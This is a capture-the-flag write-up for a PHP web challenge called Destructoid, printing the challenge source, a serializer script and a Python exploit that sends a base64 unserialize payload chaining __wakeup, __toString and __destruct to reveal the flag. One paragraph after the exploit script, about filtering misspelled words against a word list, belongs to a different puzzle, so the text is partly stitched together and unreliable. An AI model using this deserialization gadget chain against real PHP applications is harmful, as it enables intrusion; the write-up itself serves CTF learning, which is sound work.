 # Destructoid

## Description
https://www.youtube.com/watch?v=zwpDmwKxulQ

## Files
No files.

## Methodology
We somehow have to leak the source code of the webapp. After a bit of fuzzing we get it.

https://destructoid.chal.imaginaryctf.org/index.php?source

```php
 <?php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}
```

Clearly there is an `unserialize` method used which is our entrypoint of the exploit. We have to send our payload in the HTTP header but sending `HTTP_X_PAYLOAD` won't work. Read the php docs and you will know we have to send the payload in `X-PAYLOAD` header.

## Exploit
We will chain the magic methods to execute what we want.

`__destruct` and `__wakeup` will get called immediately upon unserialization.

`__construct` will get called when we create an object from `X`.

`__toString` will get called when we `echo` an object.


We start with `Y` and set `$secret` to `$this` so as to echo itself (class Y). Then the `__toString` of Y will be called and set `printflag` to `true` and create `new X` which we don't care about (this trigger the printing of `No!`). The in the unserialization payload we also set some arbitrary variable to `new X("flag")`. This create new object of `X`, we already have `$printflag` set to `true` and we get the flag.

## Code
### `unser.php`
```php
<?php

class X {
    function __construct($cleanup) {
        $this->cleanup = $cleanup;
    }
}

class Y {
    public function __construct() {
        $this->secret = $this;
        $this->mmmmmm = new X("flag");
    }
}

echo serialize(new Y());
```

### `exploit.py`
```python
import requests
import subprocess
import base64

result = subprocess.run(['php', 'unser.php'], stdout=subprocess.PIPE)
pay = base64.b64encode(result.stdout)
pay = pay.decode()

h = {'X-PAYLOAD': pay}

r = requests.get('https://destructoid.chal.imaginaryctf.org/', headers=h)
print(r.content.decode())
```

Pipe the output to a file. For me the file contained 70 words. I had to manually scan the file and remove the remaining correct words that weren't in the `words_alpha.txt`. Then go thought each misspelled word and mark down the wrong letter.

## Loot
![loot](./loot.PNG)

## Flag
**ictf{d3s3r14l1z4t10n_4nd_d3struct10n}**